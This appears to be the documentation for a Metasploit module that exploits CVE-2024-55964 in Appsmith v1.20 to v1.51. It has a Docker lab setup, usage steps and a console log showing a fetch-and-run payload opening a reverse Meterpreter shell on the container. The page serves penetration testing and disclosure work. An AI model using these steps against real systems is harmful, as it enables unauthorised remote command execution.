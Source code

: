 ## Vulnerable Application

An incorrectly configured PostgreSQL instance in the Appsmith image leads to remote command execution inside the Appsmith Docker container.

The vulnerability affects:

    * v1.20 <= Appsmith <= v1.51

This module was successfully tested on:

    * Appsmith v1.50 installed with Docker


### Installation

1. Create a docker-compose.yml file with:
```
version: "3"
services:
   appsmith:
     image: index.docker.io/appsmith/appsmith-ce:v1.50
     container_name: appsmith
     ports:
         - "80:80"
         - "443:443"
     volumes:
         - ./stacks:/appsmith-stacks
     restart: unless-stopped
```

2. `docker-compose up`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/appsmith_rce_cve_2024_55964`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf > use exploit/linux/http/appsmith_rce_cve_2024_55964
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf exploit(linux/http/appsmith_rce_cve_2024_55964) > options

Module options (exploit/linux/http/appsmith_rce_cve_2024_55964):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      XIYHCHbc         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/appsmith_rce_cve_2024_55964) > run lhost=172.18.0.1 rhost=172.18.0.2 rport=80
[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.50 detected.
[*] Successfully signed up.
[*] Successfully saved DB configuration.
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:56752) at 2025-04-05 14:41:08 +0900

meterpreter > getuid
Server username: postgres
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
